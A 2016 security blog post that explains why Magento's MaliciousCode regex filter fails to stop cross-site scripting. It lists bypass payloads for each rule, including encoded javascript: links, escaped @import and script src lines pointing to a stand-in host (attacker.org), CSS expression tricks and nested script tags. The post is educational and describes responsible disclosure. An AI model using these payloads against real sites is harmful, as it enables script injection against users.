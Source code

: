 ```yaml
---
layout: post
title: "Circumventing XSS filters"
thumbnail: water-pipe-240.jpg
date: 2016-01-29
---
```


XSS or cross site scripting is an attack where an hacker injects Javascript in a page that is then run by another visitor. To prevent this, some software tries to remove any Javascript from the input. This is pretty hard to implement correctly.  In this article I will show some code that tries to remove Javascript code from the input, and show several ways to circumvent this.

Take for example the class [`Mage_Core_Model_Input_Filter_MaliciousCode`](https://github.com/nexcess/magento/blob/master/app/code/core/Mage/Core/Model/Input/Filter/MaliciousCode.php)
from the webshop software [Magento](https://magento.com/). This class is meant to filter "malicious code", which means any way to insert Javascript. 

The code looks like this:

    protected $_expressions = array(
        '/(\/\*.*\*\/)/Us',
        '/(\t)/',
        '/(javascript\s*:)/Usi',
        '/(@import)/Usi',
        '/style=[^<]*((expression\s*?\([^<]*?\))|(behavior\s*:))[^<]*(?=\>)/Uis',
        '/(ondblclick|onclick|onkeydown|onkeypress|onkeyup|onmousedown|onmousemove|onmouseout|onmouseover|onmouseup|onload|onunload|onerror)=[^<]*(?=\>)/Uis',
        '/<\/?(script|meta|link|frame|iframe).*>/Uis',
        '/src=[^<]*base64[^<]*(?=\>)/Uis',
    );

    function filter($value) {
        return preg_replace($this->_expressions, '', $value);
    }

The variable `$_expressions` contains a list of regular expressions that are removed from the text by the `preg_replace`. So if you type `<script>foo</script>`, both tags will be removed and only `foo` will remain.

Let's look at ways to circumvent this filter. Our goal is to pass some HTML through it that executes Javascript. The filter has several expressions that are meant to prevent this:

| Filter regex | Possible exploit |
| ------------ | ---------------- |
| `(javascript\s*:)` | `<a href="javascript:alert('xss')">` |
| `@import` | `@import url(https://attacker.org/malicious.css)` |
| `style=…` | `<div style="color: expression(alert('XSS'))">` |
| `ondblclick|onclick|…` | `<div onclick="alert('xss')">` | 
| `<script…` | `<script>alert("XSS")</script>` |

## Javascript URL

A link can be made to run javascript by using `javascript:…` in the URL:

    <a href="javascript:alert('test')">link</a>

Our filter removes `javascript:` from the code, so we can't use the above code directly. We can try to change the `javascript:` part so that it is still executed by the browser, but doesn't exactly match the regex. Let's try to URL-encode a letter:

    <a href="java&#115;cript:alert('xss')">link</a>

The regex no longer matches, but the browser will still execute this because it does URL-decode the link before using it.

Besides Javascript there is also VBScript. It is deprecated and disabled in IE11, but works on older versions of Internet Explorer or if you put IE11 in IE10 emulation mode. We can use this to run some code in the same way as Javascript links:

    <a href='vbscript:MsgBox("XSS")'>link</a>

## CSS import

Internet Explorer supports Javascript expressions in CSS, called [dynamic properties](https://msdn.microsoft.com/en-us/library/ms537634(v=vs.85).aspx). Allowing an attacker to load an external CSS stylesheet would thus be dangerous, as the attacker can now run Javascript in the context of the original page.

    <style>
    @import url("https://attacker.org/malicious.css");
    </style>

And in malicious.css:

    body {
        color: expression(alert('XSS'));
    }

We can circumvent the `@import` filter by using a backslash escape character in the CSS:

    <style>
    @imp\ort url("https://attacker.org/malicious.css");
    </style>

Internet Explorer allows for the backslash and now it passes our filter.

## Inline style

We can also use the dynamic properties supported by Internet Explorer in inline style:

    <div style="color: expression(alert('XSS'))">

The filter will check for `style`, followed by anything that is not a `<`, followed by `expression`:

    /style=[^<]*((expression\s*?\([^<]*?\))|(behavior\s*:))[^<]*(?=\>)/Uis

So let's put a `<` somewhere in there:

    <div style="color: '<'; color: expression(alert('XSS'))">

This passes the filter because the `[^<]` does not match our `<`, and this is still valid CSS. Although `<` is not a valid color, the rest of the CSS is still used.


## Javascript events

One can define event handlers on an element like this:

    <div onclick="alert('xss')">

Now this Javascript would only be run when someone clicks on it, but there are also events that are triggered when the page loads or when the user moves his mouse. Many of these events are removed by the filter, but it simply does not contain all event handlers. For example, `onmouseenter` is missing:

    <div onmouseenter="alert('xss')">

Our code is run when the user moves his mouse onto the div.

Another way to circumvent this is to put a space between the attribute and the `=`. Magento fixed this in a later version of the MaliciousCode filter.

    <div onclick ="alert('xss')">

## Script tag

A script tag can be used to define inline script, or load a script file from another location:

    <script>alert("XSS")</script>
    <script src="https://attacker.org/malicious.js"></script>

Our filter removes any `<script>` tags. However, it only does so once, so we can make sure that the content that we want ends up after removing the tags:

    <scr<script>ipt>alert("XSS")</scr<script>ipt>

The filter removes the two occurrences of `<script>`, and we end up with exactly the code that we want. In fact, this method of nesting tags can be used to circumvent any of filter expressions.

## Conclusion

Although the filter tries to block several methods of script injection, we found circumventions for all of them. It is not easy to create a filter to prevent XSS attacks. There are several types of encoding and a number of different browser behaviours you have to take into account. This makes it hard on the developer and easy on the attacker.

## Security implications

I have shown some ways to get Javascript through this filter anyway. This could be a security risk, except that this filter is never used with untrusted input. As can be read in the [Magento 2.0.1 release notes](https://magento.com/security/patches/magento-201-security-update):

> A user can easily bypass the MaliciousCode filter function when entering HTML code. However, Magento rarely uses this filter, and none of its current usages allow unauthenticated user input.

Furthermore, I contacted Magento on 23 January and they didn't consider this a security issue, so I felt free to publish this article.
